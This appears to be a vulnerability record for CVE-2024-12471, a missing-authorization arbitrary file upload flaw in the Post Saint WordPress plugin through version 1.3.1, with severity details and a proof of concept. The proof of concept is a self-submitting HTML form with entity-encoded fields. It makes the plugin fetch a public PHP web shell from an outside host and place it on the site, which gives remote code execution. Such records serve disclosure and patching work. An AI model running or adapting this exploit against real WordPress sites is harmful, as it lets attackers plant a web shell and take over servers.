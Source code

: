# CVE-2024-12471
Post Saint: ChatGPT, GPT4, DALL-E, Stable Diffusion, Pexels, Dezgo AI Text & Image Generator <= 1.3.1 - Missing Authorization to Authenticated (Subscriber+) Arbitrary File Upload

# Description

The Post Saint: ChatGPT, GPT4, DALL-E, Stable Diffusion, Pexels, Dezgo AI Text & Image Generator plugin for WordPress is vulnerable to arbitrary files uploads due to a missing capability check and file type validation on the add_image_to_library AJAX action function in all versions up to, and including, 1.3.1. This makes it possible for authenticated attackers, with subscriber-level access and above, to upload arbitrary files that make remote code execution possible.

## Details

- **Type**: plugin
- **Slug**: post-saint
- **Affected Version**: 1.3.1
- **CVSS Score**: 8.8
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-12471
- **Status**: Closed

POC
---
```
<html>
  <body>
    <form action="https://wp-dev.ddev.site/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="add&#95;image&#95;to&#95;library" />
      <input type="hidden" name="image&#95;url" value="https&#58;&#47;&#47;raw&#46;githubusercontent&#46;com&#47;flozz&#47;p0wny&#45;shell&#47;refs&#47;heads&#47;master&#47;shell&#46;php" />
      <input type="hidden" name="image&#95;prompt" value="say&#32;hello" />
      <input type="hidden" name="insert&#95;prompt&#95;media&#95;library&#95;fields" value="caption&#95;description" />
      <input type="hidden" name="image&#95;generator" value="pexels" />
      <input type="hidden" name="log&#95;id" value="1667" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
